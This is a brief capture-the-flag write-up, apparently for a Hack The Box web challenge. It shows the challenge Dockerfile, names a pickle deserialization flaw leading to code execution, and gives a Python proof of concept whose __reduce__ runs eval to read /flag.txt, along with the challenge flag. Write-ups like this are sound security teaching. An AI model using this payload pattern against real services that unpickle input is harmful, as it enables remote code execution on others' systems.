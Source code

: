 ```
# Setup app
RUN mkdir -p /app

# Switch working environment
WORKDIR /app

# Add application
COPY challenge .

# Install dependencies
RUN pip install --no-cache-dir -r requirements.txt

# Setup supervisor
COPY config/supervisord.conf /etc/supervisord.conf

# Expose port the server is reachable on
EXPOSE 1337

# Disable pycache
ENV PYTHONDONTWRITEBYTECODE=1

# create database and start supervisord
COPY --chown=root entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
```


### Exploit

- vul pickle serial to RCE


![image](https://hackmd.io/_uploads/ByJEotqIA.png)

poc: 

```
import pickle, base64

class test:
    def __reduce__(self):
        p="open('/flag.txt').read()"
        return (eval,(p,))

rs={'username':test()}

print(base64.b64encode(pickle.dumps(rs)).decode('utf8'))

```

flag: `HTB{sp3l1_0f_the_p1ckl3!}`

